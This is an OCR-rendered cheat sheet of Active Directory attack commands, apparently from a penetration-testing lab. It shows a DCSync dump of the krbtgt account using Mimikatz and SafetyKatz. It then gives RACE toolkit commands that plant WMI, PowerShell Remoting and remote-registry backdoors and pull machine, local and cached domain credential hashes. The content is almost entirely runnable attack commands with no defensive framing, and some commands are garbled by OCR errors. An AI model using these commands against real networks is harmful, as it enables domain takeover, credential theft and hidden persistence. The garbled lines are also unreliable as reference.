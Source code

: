 ###### Execute DCSync

```powershell
Invoke-Mimikatz -Command '"lsadump: :dcsync /user:us\krbtgt"'

# or

SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

### Security Descriptors

######  WMI

```powershell
# Load RACE toolkit
RACE.ps1

# On local machine for student1:
Set-RemotewMI -SamAccountName studentuserl -Verbose

# On remote machine for studentuser1 without explicit credentials:
Set-RemotewMI -SamAccountName studentuserl -ComputerName us-dc -Verbose

# On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:
Set-RemotewMI -SamAccountName studentuserl -ComputerName us-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# On remote machine remove permissions:
Set-RemotewMI -SamAccountName studentuserl -ComputerName us-dc -Remove
```

###### PowerShell Remoting

```powershell
# On local machine for studentuser1
Set-RemotePSRemoting -SamAccountName studentuserl -Verbose

# On remote machine for studentuser1 without credentials
Set-RemotePSRemoting -SamAccountName studentuserl -ComputerName us-dc -Verbose

# On remote machine, remove the permissions
Set-RemotePSRemoting -SamAccountName studentuserl -ComputerName us-dc -Remove
```

###### Remote Registry

```powershell
# Using RACE or DAMP toolkit, with admin privs on remote machine
Add-RemoteRegBackdoor -ComputerName us-dc -Trustee studentuserl -Verbose

# As studentuser1, retrieve machine account hash:
Get-RemoteMachineAccountHash -ComputerName us-dc -Verbose

# Retrieve local account hash:
Get-RemoteLocalAccountHash -ComputerName us-dc -Verbose

# Retrieve domain cached credentials:
Get-RemoteCachedCredential -ComputerName us-dc -Verbose
```
